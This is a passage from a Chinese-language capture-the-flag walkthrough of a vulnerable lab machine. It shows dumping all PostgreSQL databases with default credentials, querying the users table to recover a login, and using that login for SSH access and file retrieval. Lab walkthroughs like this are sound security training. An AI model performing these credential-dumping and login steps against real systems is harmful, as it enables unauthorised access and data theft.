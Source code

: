 ```bash
PGPASSWORD="postgres" pg_dumpall -U postgres -h 127.0.0.1 -p 5557
```

或者使用 webmin:webmin1980 登录靶机手工查询，[相关命令参考](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)

```bash
psql -h localhost -U postgres
\list # List databases
\c <database> # use the database
\d # List tables
SELECT * FROM  users;
```

[![](assets/1704158282-2d1e0adc6dee0fa99694c3d714c95a39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010506-40248a32-a5a3-1.png)

> 拿到了一个用户凭据 vulnosadmin:c4nuh4ckm3tw1c3

# 立足点 2：shell as user2（ssh）

使用 vulnosadmin:c4nuh4ckm3tw1c3 成功 ssh 登录，没 sudo 权限，但在家目录发现文件 r00t.blend

```bash
ssh vulnosadmin@192.168.50.10

//kali
scp vulnosadmin@192.168.50.10:~/r00t.blend .
file r00t.blend
binwalk r00t.blend
cat r00t.blend
strings r00t.blend
```

